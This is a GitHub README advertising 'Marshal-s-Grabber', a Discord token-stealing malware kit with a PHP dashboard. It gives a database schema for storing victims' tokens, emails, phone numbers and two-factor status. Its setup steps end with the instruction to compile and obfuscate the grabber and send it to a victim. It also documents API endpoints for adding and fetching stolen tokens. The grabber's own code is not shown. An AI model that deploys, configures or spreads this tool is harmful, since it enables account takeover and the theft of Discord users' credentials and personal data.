
# Marshal-s-Grabber
The Best Most powerfull token grabber with dashboard.
<div align="center">
  <h2>🚀 Marshal`s Lab 🚀</h2>
  <p>The most powerfull Discord Token Grabber with Dasboard</p>
  <a href="https://discord.gg/GPVnYTzsFF" target="_blank">Join my Discord Server</a><br><br>

  <img src="https://i.imgur.com/l9hMrQO.gif" width="60%">
</div>

<br><br><br>


> ## Features
> - All in Interface
> - Can't delete webhook
> - Custom API for fetch/remove/add tokens
> - Login system with secret password
> - Grabber on 22 Applications/browsers
> - Very Simple Usage

<br><br>

> ## Usage
> For use Marshal, you need a Server accept PHP and contain a database,
> 1. Put the files in your host
> 2. Go to your phpmyadmin, in section SQL paste that:
> ```sql
> CREATE TABLE `tokens` (
>   `user_id` text NOT NULL,
>   `username` text NOT NULL,
>   `avatar` text NOT NULL,
>   `email` text NOT NULL,
>   `phone` text NOT NULL,
>   `badges` text NOT NULL,
>   `nitro_badges` text NOT NULL,
>   `twofactor` text NOT NULL,
>   `token` text NOT NULL
> ) ENGINE=InnoDB DEFAULT CHARSET=utf8;
> ```
> 3. Make your database ip,databse name,username,password in the file `Inc/database.php`
> 4. Setup your passwords and webhooks in `INC/functions.php`
> 5. Make your host adress in `Grabber/python/marshal.py` at line 5
> 6. Compile and obfuscated your Grabber and send it to your victime :)

> 7. Put a stars and follow me for more :)

<br><br>

> ## API Working
> - Add Discord Token To Database
> - - `https://yourhost.com/api?type=addtoken&token=THE_VICTIME_TOKEN`
> - Remove Discord Token From Database
> - - `https://yourhost.com/api?type=removetoken&password=YOUR_SECRET_PASSWORD&token=THE_VICTIME_TOKEN`
> - Fetch Discord Token Info From Database
> - - `https://yourhost.com/api?type=fetchtoken&password=YOUR_SECRET_PASSWORD&token=THE_VICTIME_TOKEN`
